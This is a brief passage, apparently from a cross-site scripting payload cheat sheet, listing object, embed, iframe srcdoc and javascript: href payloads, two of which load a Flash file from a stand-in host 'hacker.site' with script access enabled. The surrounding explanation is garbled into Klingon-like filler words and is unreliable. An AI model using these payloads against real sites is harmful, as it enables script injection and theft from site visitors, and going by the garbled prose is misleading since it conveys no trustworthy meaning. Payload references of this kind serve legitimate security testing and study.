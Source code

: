 ```markup
//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```
**vItlhutlh** 

_**vaj HTML encoding je Unicode encoding trick vItlhutlh previous section valid vay' vaj vay' attribute.**_
```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```